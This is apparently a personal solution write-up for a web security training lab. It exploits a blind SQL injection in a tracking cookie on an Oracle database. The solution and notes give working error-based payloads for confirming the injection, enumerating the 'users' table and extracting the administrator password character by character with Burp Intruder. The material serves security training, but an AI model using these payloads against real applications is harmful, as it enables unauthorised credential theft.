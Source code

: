 ## Description

this lab contains a blind SQL injection vulnerability, the application uses a tracking cookie for analytics and performs a SQL query containing the value of the cookie

the results of the query are not returned and the application does not respon differently based on whether or not the query returns any rows, but if the query causes any errors then the application returns a custom error message 

the database contains a table called 'users' with columns 'password' and 'username', exploit the SQL injection vulnerability to find out the password of the 'administrator' user

## Solution

first check for the injection with a simple quote [ ' ] injection

	Cookie: TrackingId=[cookie]' \\ the application returns an error 

then it is possible to bruteforce the 'administrator' password with Burp Intruder:

	' AND (SELECT CASE WHEN SUBSTR((SELECT password FROM users WHERE username='administrator'),$1$,1) = '$2' THEN TO_CHAR(1/0) ELSE TO_CHAR(1/1) END FROM dual) ='1

Parameters:
- 1st payload: Numbers, From 1 to 20, Step1
- 2nd payload: Brute forcer, Character set: lowercase alphanumeric, Min/Max length: 1

then analyzing the response length will reveal the 20 characters password

## Notes:

while it was possible to complete the lab with the given solution it assumed a lot of things such as a 20 character password (because it probably would be the same as the other labs), also the DBMS used was gotten through the 'hint' of the lab

this is the more appropriate solution:

test a simple quote injection \\\\ this will cause an error

test two simple quotes \\\\ this will not cause an error, suggesting a syntax error is having a detectable effect on the response

confirm that the server is interpreting the injection as a SQL query (confirm the error is a SQL syntax error as opposed to any other kind of error), this can be achieved by constructing a subquery using valid SQL syntax

	' || (SELECT '') ||' \\ this will cause an error 

this does not mean however that the server is not interpreting the injection as SQL, it might happen due to the database type 

	' || (SELECT '' FROM dual) ||' \\ this will not cause an error

from this it is possible to know that the database used is Oracle (because it required a explicit specified table name) which will help in crafting the proper injection later

testing for an invalid table name with valid syntax:

	' || (SELECT '' FROM sacanagem) ||' \\ this will cause an error

this behavior strongly suggests that the injection is being processed as a SQL query by the backend 

now it is possible to extract information using conditional statements that will throw an error alongside valid SQL syntax

verifying the existence of the 'users' table:

	' ||(SELECT '' FROM users WHERE ROWNUM=1)||' \\ does not return an error, indicating the existence of the table; note that the WHERE ROWNUM=1 statement is necessary so that the query response does not break the concatenation

testing conditional statements:

	' || (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' \\ this will not cause an error

	' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' \\ this will cause an error

now we test for the existence of the 'administrator' user in the 'users' table:

	 '|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' \\ this will cause an error

	 '|| (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' \\ this will not cause an error

next step is determining the length of the administrator user password:

	' || (SELECT CASE WHEN LENGTH(password) > 19 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' \\ this will cause an error, indicating the password is longer than 19 characters

	' || (SELECT CASE WHEN LENGTH(password) > 20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' \\ this will not cause an error, indicating the password is exactly 20 characters long

after determining the length it should be easy to use Burp Intruder to test for the password (in this case, assuming alphanumeric lowercase) 

	' || (SELECT CASE WHEN SUBSTR(password,$1$,1) = $2$ THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

using the first payload as a numeric list from 1 to 20 with step 1 and the second as an alphanumeric lowercase list the password will be retrieved by analyzing which requests triggered an error

